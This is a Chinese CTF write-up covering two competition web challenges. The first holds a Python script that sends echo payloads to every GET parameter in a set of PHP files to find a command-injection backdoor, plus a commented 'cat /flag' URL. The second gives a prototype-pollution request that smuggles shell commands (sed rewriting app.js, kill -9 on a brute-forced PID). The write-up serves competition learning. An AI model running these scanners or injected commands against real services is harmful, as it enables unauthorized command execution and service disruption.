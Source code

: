## Big Hacker

强网国赛的题目。。。  
本地起环境爆参数，还应该测一下POST，但是GET就有shell  
多线程线程池不太好维护，单线程也不会很慢...  

```python
import os
import re
import time

import requests

uuid = "36b6ae3a-2c5b-4ad1-a42a-cb656ac54780"
start = "A00UTldNShN.php"

# http://detroit.sustech.edu.cn:28084/xk0SzyKwfzw.php?Efa5BVG=cat%20/flag

if __name__ == '__main__':
    while True:
        try:
            global start
            hit = False
            for i in os.listdir("e:\\desk\\src"):
                if not hit and i != start:
                    continue
                start = i
                hit = True
                f = open(f"e:\\desk\\src\\{i}", "r", encoding="utf-8")
                print(f"[*] testing: {i}")
                code = f.read()
                gets = re.findall(r"\$_GET\['(.*?)']", code)
                for param in gets:
                    r = requests.get(f"http://192.168.254.137/src/{i}?{param}=echo {uuid}")
                    if r.status_code != 200:
                        if requests.get("http://192.168.254.137/src/A00UTldNShN.php").status_code != 200:
                            raise Exception("500")
                        else:
                            continue
                    if uuid in r.text:
                        print(f"[+] shell fond on: {i}")
                        print(f"[+] get: {param}")
                        exit(0)
        except Exception as e:
            print(e)
            time.sleep(1)
            print("[-] retrying...")

```

## Proto Note

原型链污染，网鼎国赛的题。  

本来环境问题只允许web服务的端口正向出网，思路是杀掉自己的进程再抢一个正向shell占掉端口，但是环境里nc python都没有，非常感人。  

利用上边的思路还是能当成不出网的题目做的

POST `http://172.18.36.237:28052/edit_note`  
`id=__proto__.x&raw=x&author=sed -i 's#Sorry cant find that!#'$FLAG'#' app.js %26 kill -9 29`  
污染，替换404为flag  
pid可以从200往下爆破，无响应后重启就中了。每次容器初次启动都在29号。  
杀掉进程，守护进程会让它重启,没有重启可以执行一次 `%26 node app.js`    

GET `http://172.18.36.237:28016/status` 刷新  
GET `http://172.18.36.237:28016/fuck` 随便找个404页面就可以拿到flag。  